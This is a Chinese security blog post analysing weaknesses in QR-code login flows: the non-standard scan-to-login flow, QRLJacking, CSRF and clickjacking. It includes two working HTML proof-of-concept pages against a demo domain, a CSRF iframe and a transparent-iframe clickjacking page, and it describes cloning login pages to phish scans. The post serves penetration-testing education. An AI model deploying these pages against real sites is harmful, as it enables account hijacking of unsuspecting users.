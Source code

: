 ```yaml
---
layout: post
author: Vulkey_Chen
title: "二维码登陆的常见缺陷剖析"
date: 2018-04-08
categories: 二维码登陆
permalink: /archives/2018-04-08/1
description: "二维码登陆，在表面上来看好像是很安全，但是深入去研究会发现很多都是存在安全隐患～"
---
```


#  二维码登陆的常见缺陷剖析

现在很多的电商平台和互联网型企业都有自己的手机APP，为了方便用户的体验，于是就有了"扫码登陆"这样的功能。看似扫码登陆，实际上还是基于HTTP请求来完成的。

## 了解扫码登陆步骤

标准的二维码登陆流程如下：
1. 打开web界面进入登陆然后加载二维码
2. 网站开始轮询，来检测二维码状态
3. 打开手机APP进入"扫一扫"，扫描二维码
4. 网站检测到二维码被扫描，进入被扫描后的界面，继续轮询来获取凭证
5. 手机APP进入确认登陆界面
6. (当点击确认登陆)网站轮询结束获取到了凭证，进入个人中心；(当取消登陆)网站轮询设定时间自动刷新页面。

## 常见缺陷剖析

### 0x00 非标准扫码登陆流程缺陷

#### 非标准流程描述

扫描登陆的流程如果不按照标准来做也会存在很多问题，国内一些企业在处理这些的时候省略了如上所述的第五步骤和第六步骤，而是直接扫描后立即登陆。

#### 分析非标准流程可能存在的问题

- 可进行1:1比例诱导扫描

二维码是一张图片而图片是可以移植的，所以我们可以1:1克隆一个登陆页面来诱导用户进行扫描，这样就可以直接获取用户的权限了。

因为保密协议的问题，这里不对漏洞详情进行描述，简单的使用文字进行叙述：

在测试这种问题的时候，只需要按照步骤去测试下即可发现是否有相对于的问题，我一般会使用浏览器ctrl+s快捷键先克隆下来，因为这样会自带css和js等文件，剩下的只需要你处理一下就行了，也可以参考我之前的文章：[微信Netting-QRLJacking分析利用-扫我二维码获取你的账号权限](https://bbs.ichunqiu.com/thread-25923-1-1.html)，方法类似就行，但是这里的微信二维码登录是基于OAuth2.0协议的，所以当用户点击之后，我只要获取到授权凭证链接就行了，而一般的二维码登陆是不基于OAuth2.0协议的，就需要处理好你的交互问题。

### 0x01 QRLJacking-二维码登陆劫持

2017年OWASP推出了这种攻击方式：https://www.owasp.org/index.php/Qrljacking

因为OWASP上有详细的介绍，所以在这里我就不以实际案例来说明了。

补充的一点是在0x00中我已经说明了之前一篇文章[微信Netting-QRLJacking分析利用-扫我二维码获取你的账号权限](https://bbs.ichunqiu.com/thread-25923-1-1.html)，在这里我称之为Netting-QRLJacking是因为我们可以使用钓鱼网站方式的方法进行大面积撒网~而其实这里是利用了OAuth2.0的一个流程特征，我们想进行二维码登录劫持的时候也可以利用"扫码登陆"的流程特征。

之前已经把"扫码登陆"的流程说的很清楚了，我们知道其中一步轮询是用户点击确认登陆之后就通过轮询这个接口可以直接获得凭证，利用这个特点就行了。

**小提示：**整个流程划分为一个一个的接口来测试，你会更清楚的。

### 0x02 CSRF跨站请求访问

之在0x01说了，把整个流程划分为一个个的接口来测试，你就会更清楚，其实潜台词就是**"你会发现更多漏洞"**~

以一个实际例子来讲解：

在测试一个站点的时候遇到的问题，其扫码登陆的流程全部为GET类型请求：

1. 打开web界面进入登陆然后加载二维码**（http://www.gh0stdemo.cn/getqrcode 返回一段uuid 二维码的链接为 http://www.gh0stdemo.cn/qrcode?code=qrcode）**
2. 网站开始轮询，来检测二维码状态**（http://www.gh0stdemo.cn/getqrlstate?code=qrcode）**
3. 打开手机APP进入"扫一扫"，扫描二维码**（http://www.gh0stdemo.cn/qrcode?code=qrcode）**
4. 网站检测到二维码被扫描，进入被扫描后的界面，继续轮询来获取凭证**（http://www.gh0stdemo.cn/getqrlstate?code=qrcode）**
5. 手机APP进入确认登陆界面**（这步骤必须需要经过第四步骤之后才可以 http://www.gh0stdemo.cn/putqrlstate?code=qrcode）**
6. (当点击确认登陆)网站轮询结束获取到了凭证，进入个人中心；(当取消登陆)网站轮询设定时间自动刷新页面。


在这里我们可以构建这样的PoC：

```html
<!DOCTYPE html>
<html>
<head>
	<title>PoC</title>
</head>
<body>
<script>
function loadsrc(){
	document.getElementById("test1").src="http://www.gh0stdemo.cn/qrcode?code=qrcode";
}
setTimeout('loadsrc()',1000);
</script>
<iframe id="test1" src="http://www.gh0stdemo.cn/putqrlstate?code=qrcode">
</iframe>
</body>
</html>
```

很简单的一个PoC就构成了，这里也确实存在CSRF的问题，可能在这里有人会想到攻击面得问题，仅仅只限于APP端？当然不，其实原理是一样得，都是把自己的凭证(Cookie)发出去，所以在电脑的web端只要登陆了一样可以完成攻击步骤~

当然在这里也有POST形式的CSRF，因为内容重复度过高就不一一举例了。

### 0x03 ClickJacking-点击劫持

点击劫持，视觉欺骗

根据扫码登陆的流程中我们可以看到有一个流程强制的要求了用户去点击确认登陆的按钮，但是这个界面往往没有做点击劫持的防范：

在我之前的一篇文章中详细讲了PoC的制作方法：http://gh0st.cn/archives/2017-12-20/1

之前跟一朋友在测试的时候发现了一些问题，有些网站用iframe标签引用进来，不会百分百的自适应，在这里我使用了div为父元素，如何再在div里面写入iframe这个子元素来自适应就行了。

```html
<html>
<head>
<meta name="referrer" content="never">
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
.btn {
    position: fixed;
    width: 97%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right:0;
    display:block;
    top: 815px;
} 
</style>
</head>
<body>
<div class="testframe">
	<input type="button" class="btn" value="Click">
	<iframe src="http://www.gh0stdemo.cn/qrcode?code=qrcode"></iframe>
</div>
</body>
</html>
```

示例结果：

![/images/2018-04-08/0x00.png](/images/2018-04-08/0x00.png)



## 结尾

本文没详细的去写，仅仅记录笔者的实践过程和心得。
